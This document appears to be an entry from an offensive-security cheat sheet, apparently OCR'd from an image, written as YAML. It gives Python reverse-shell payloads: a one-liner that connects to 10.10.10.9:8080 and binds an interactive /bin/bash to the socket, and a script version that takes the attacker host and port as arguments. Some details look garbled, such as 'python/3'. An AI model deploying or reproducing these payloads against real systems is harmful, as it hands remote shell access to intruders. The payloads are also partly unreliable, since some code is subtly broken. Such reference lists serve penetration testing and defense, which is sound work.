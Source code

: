 ```yaml
---
functions:
  shell:
    - description: Python reverse shell
      code: |

        python/3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.10.9",8080));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"]);'

        
        Create a shell.py script and run with python/3 shell.py 10.1.1.246 9998:

        import socket,subprocess,os,sys
        s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
        s.connect((sys.argv[1],sys.argv[2]))
        os.dup2(s.fileno(),0)
        os.dup2(s.fileno(),1)
        os.dup2(s.fileno(),2)
        p=subprocess.call(["/bin/bash","-i"])
---
```

